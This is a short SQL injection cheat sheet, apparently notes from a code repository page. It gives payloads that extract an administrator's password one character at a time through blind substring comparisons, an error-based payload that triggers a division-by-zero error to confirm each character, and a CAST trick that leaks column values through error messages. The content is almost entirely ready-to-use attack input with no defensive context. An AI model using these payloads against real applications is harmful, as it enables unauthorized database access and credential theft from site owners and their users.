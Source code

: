 
determine if the first symbol of password is greater than 'm':
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

then try next symbol and so on.

##### Error based SQL
```sql
(SELECT CASE WHEN ((select substr(password,6,1) from users where username='administrator')='a') THEN '' ELSE TO_CHAR(1/0) END FROM dual)
```
convert one type to another
```sql
CAST((SELECT example_column FROM example_table) AS int)
```
example_column value will be displayed in the error
